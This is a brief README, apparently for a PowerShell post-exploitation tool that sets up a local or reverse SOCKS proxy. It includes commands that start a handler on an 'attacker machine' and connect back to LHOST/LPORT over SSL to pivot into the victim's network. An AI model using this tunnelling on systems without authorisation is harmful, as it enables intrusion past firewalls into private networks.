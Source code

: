 # Invoke-SocksProxy
Creates a local or "reverse" Socks proxy using powershell. The local proxy is a simple Socks 4/5 proxy.

The reverse proxy creates a tcp tunnel by initiating outbond SSL connections that can go through the system's proxy. The tunnel can then be used as a socks proxy on the remote host to pivot into the local host's network.

Merged the script from tokyoneon and from p3nt4 so it works. *Note* Firewall might be on high ports will most likely not work. Run the script, and copy the SHA1 cert fingerprint and past in the the script:
```
sudo python2.7 ReverseSocksProxyHandler.py
```

# Example
Connect back to ProxyHandler on attacker machine with certificate fingerprint.
```
Import-Module Invoke-ReverseSocksProxy.psm1
Invoke-ReverseSocksProxy -remotePort LPORT -remoteHost LHOST -certFingerprint 'CERT_FINGERPRINT'
```
